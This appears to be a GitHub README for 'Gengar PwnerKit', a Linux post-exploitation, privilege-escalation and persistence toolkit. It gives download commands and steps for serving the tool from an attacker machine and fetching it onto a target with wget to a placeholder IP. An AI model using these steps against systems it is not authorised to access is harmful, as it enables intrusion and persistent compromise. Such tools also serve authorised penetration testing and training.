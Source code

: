 # Gengar PwnerKit

> <div>
>     <img src="https://img.shields.io/badge/-Linux-grey?logo=Linux&logoColor=white" width="70px">
>     <img src="https://img.shields.io/badge/-Bash-green?logo=GNU-Bash&logoColor=white" width="70px">
>     <img src="https://img.shields.io/badge/-Python3-3776AB?logo=Python&logoColor=white" width="90px">
>     <img src="https://img.shields.io/badge/-PHP-777BB4?logo=PHP&logoColor=white" width="60px">
> </div>

> ## | Post Exploration | Privilege Escalation | Persistence |
> 
>                  ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)
>
> ---

> ## How to install?
> ### Wget:
> ```
> wget -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -O gpk ; chmod +x gpk
> ```
> ### Curl: 
> ```
> curl -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -o gpk ; chmod +x gpk
> ```
> ---

> ## How to upload to targets machine?
> ### 1. Download the GPK
> ### 2. Attacker Machine:  
> ```
> python3 -m http.server PORT
> ``` 
> ### 3. Target Machine:
> ```
> wget YOURIP:PORT/gpk ; chmod +x gpk
> ```
> ---

> ## Images
> <div align="center">
>   <h1>  <img src="https://github.com/h0ru/gpk/blob/main/gpk.png" width="500px"> </h1>
>   <h1>  <img src="https://github.com/h0ru/gpk/blob/main/chacal.png" width="500px"> </h1>
> </div>

> ## GPK uses these other scripts
> ### ➫ [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
> ### ➫ [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)
> ---
